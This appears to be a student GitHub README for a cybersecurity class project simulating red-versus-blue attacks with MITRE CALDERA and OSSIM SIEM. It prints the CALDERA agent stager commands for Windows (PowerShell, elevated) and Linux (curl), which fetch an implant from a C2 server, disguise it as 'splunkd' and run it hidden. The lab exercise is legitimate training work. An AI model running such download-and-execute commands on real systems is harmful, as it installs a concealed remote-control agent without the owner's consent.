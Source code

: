 # Cybersecurity
This repository will contain our final project for our cybersecurity class. We will show the command, and mostly the screenshot and the report of our overall project.


Our final project title is: Red-Blue Team Simulation with OSSIM SIEM


In this project, we utilize MITRE CALDERA and Alien Vault OSSIM to create a simulation of an attack to our computer. We utlized some of the Caldera attack capability to gather data and information of our target. 


Code below show the powershell script that we would need to run on an elevated privilage (run as administrator)
```powershell
$server="http://192.168.0.142:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

Below is the code that we run on linux victim machine
```bash
server="http://192.168.0.142:8888/";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```
